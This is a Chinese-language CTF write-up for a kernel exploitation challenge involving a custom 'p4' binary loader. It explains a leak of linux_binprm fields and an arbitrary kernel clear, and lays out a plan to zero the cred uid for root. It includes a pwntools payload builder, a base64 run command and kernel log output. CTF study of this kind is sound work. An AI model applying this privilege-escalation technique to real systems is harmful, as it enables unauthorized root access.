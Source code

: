 ```c complex
```

### 漏洞

`mapping_count` 改大可以 leak `linux_binprm` 其他欄位的值  
`_clear_user` 沒有檢查，可以把 kernel 上任意位址的值清空  
`linux_binprm` 有一個 `cred` 的結構，裡面存的就是 `uid, gid`  
所以我們只要 leak 出這個 `cred` 的位址，然後用 `_clear_user` 清成 0，我們的程式就是 root 權限了 ( root 的 uid 是 0 )

### 嘗試

```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode

context.arch = "amd64"

payload  = b"P4"             # magic
payload += p8(0)             # version
payload += p8(1)             # type
payload += p32(1)            # mapping_count
payload += p64(0x18)         # mapping_offset
payload += p64(0x400030)     # entry

# mapping
payload += flat(
    0x400000 | 7,
    0x1000,
    0
)

payload += asm(shellcraft.echo("test\n") + shellcraft.exit())

print(f'echo {b64encode(payload).decode()} | base64 -d > a ; chmod +x a ; ./a')
```

先寫個簡單的 p4 格式的執行檔測試一下我們的理解是不是對的  

```bash command
echo UDQAAQEAAAAYAAAAAAAAADAAQAAAAAAABwBAAAAAAAAAEAAAAAAAAAAAAAAAAAAASLgBAQEBAQEBAVBIuHVkcnULAQEBSDEEJGoBWGoBX2oFWkiJ5g8FajxYDwU= | base64 -d > a ; chmod +x a ; ./a
```

```bash output
[50353.170813] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
test
```

接下來要找 `cred` 的位址，因為 `pwn` 的 `uid` 是 1000 ( = 0x3e8 )  
所以我們把使用者切換成 `pwn`，切成 `pwn` 之後要在 `/tmp` 才可以寫檔  
然後把 `mapping_count` 改大一點，比如 `6`，在他印出的位址指向的值中找 `0x3e8`

```bash
[50800.668734] vm_mmap(load_addr=0x400000, length=0x1000, offset=0x0, prot=7)
[50800.674080] vm_mmap(load_addr=0x10101010101b000, length=0x726475b848500101, offset=0x431480101010b75, prot=0)
[50800.674550] clear_user(addr=0x10101010101b848, length=0x726475b848500101)
[50800.675372] vm_mmap(load_addr=0x6a5f016a58016000, length=0x6a050fe689485a05, offset=0x50f583c, prot=4)
[50800.675786] vm_mmap(load_addr=0x0, length=0x0, offset=0x0, prot=0)
[50800.676003] vm_mmap(load_addr=0x0, length=0x7fffffffef99, offset=0x100000001, prot=0)
[50800.676260] vm_mmap(load_addr=0x0, length=0xffffa1c307595b40, offset=0x0, prot=0)
test
```
